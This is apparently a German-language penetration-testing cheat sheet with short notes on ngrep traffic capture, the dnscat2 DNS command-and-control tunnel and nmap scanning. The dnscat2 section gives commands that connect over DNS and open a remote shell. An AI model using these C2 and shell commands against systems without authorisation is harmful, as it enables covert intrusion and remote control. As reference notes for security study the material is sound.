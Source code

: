 - Aufgenommenen Traffic in pcap-File schreiben
```
ngrep -O pcap.pcap
```

- Gewissen Port abhören
```
ngrep port [Port]
```

## [dnscat2](https://www.hackingarticles.in/dnscat2-application-layer-cc/)
- C2 Tunnel über DNS
- Installation
```
sudo apt install dnscat2
```

### Syntax
- Verbindung herstellen
```
dnscat --dns=server=[Target-IP],port=53
```

### Shell erstellen
- Fenster anzeigen lassen
```
windows
```

- Mit Fenster 1 interagieren
```
window -i 1
```

- Shell erstellen
```
shell
```

- Mit Shell interagieren
```
window -i 2
```

## #nmap
- Host-Detektion
- Port-Scanning
- Dienste erkennen
- OS-Erkennung
- [nmap Cheat Sheet](https://www.stationx.net/nmap-cheat-sheet/)
- [nmap Brute Force](https://nmap.org/nsedoc/categories/brute.html)

### Syntax
- Einfacher Scan
```
nmap -A -v [Host]
```

